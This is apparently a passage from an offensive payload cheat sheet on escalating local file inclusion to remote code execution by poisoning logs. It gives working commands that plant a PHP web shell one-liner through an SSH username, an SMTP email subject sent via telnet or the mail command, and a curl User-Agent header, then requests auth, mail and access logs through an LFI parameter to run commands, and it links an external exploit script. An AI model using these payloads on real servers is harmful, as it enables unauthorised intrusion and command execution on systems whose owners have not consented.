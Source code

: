 Use the script [phpInfoLFI.py](https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

### RCE via SSH

Try to ssh into the box with a PHP code as username `<?php system($_GET["cmd"]);?>`.

```powershell
ssh <?php system($_GET["cmd"]);?>@10.10.10.10
```

Then include the SSH log files inside the Web Application.

```powershell
http://example.com/index.php?page=/var/log/auth.log&cmd=id
```

### RCE via Mail

First send an email using the open SMTP then include the log file located at `http://example.com/index.php?page=/var/log/mail`.

```powershell
root@kali:~# telnet 10.10.10.10. 25
Trying 10.10.10.10....
Connected to 10.10.10.10..
Escape character is '^]'.
220 straylight ESMTP Postfix (Debian/GNU)
helo ok
250 straylight
mail from: mail@example.com
250 2.1.0 Ok
rcpt to: root
250 2.1.5 Ok
data
354 End data with <CR><LF>.<CR><LF>
subject: <?php echo system($_GET["cmd"]); ?>
data2
.
```

In some cases you can also send the email with the `mail` command line.

```powershell
mail -s "<?php system($_GET['cmd']);?>" www-data@10.10.10.10. < /dev/null
```

### RCE via Apache logs

Poison the User-Agent in access logs:

```ps1
curl http://example.org/ -A "<?php system(\$_GET['cmd']);?>"
```

Note: The logs will escape double quotes so use single quotes for strings in the PHP payload.

Then request the logs via the LFI and execute your command.
